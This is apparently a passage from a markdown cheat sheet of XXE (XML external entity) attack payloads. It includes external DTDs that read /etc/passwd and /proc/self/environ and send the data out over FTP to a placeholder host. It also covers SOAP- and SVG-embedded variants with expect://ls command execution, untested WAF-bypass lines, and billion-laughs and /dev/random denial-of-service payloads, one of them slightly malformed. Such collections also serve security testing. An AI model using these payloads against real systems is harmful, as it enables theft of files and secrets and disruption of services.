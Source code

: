 - External dtd



```xml-dtd
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">
<!-- you might need to encode this % (depends on your target) as: &#x25; -->
```
#### FTP
```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
```

- External dtd



```xml-dtd
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```
#### Inside SOAP body
```xml-dtd
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```
#### XXE inside SVG
```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
#### Untested - WAF Bypass
```xml-dtd
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```
### DOS
#### 包括一个随机的文件
```xml-dtd
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```
#### Billion Laugh Attack - Denial Of Service
```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
```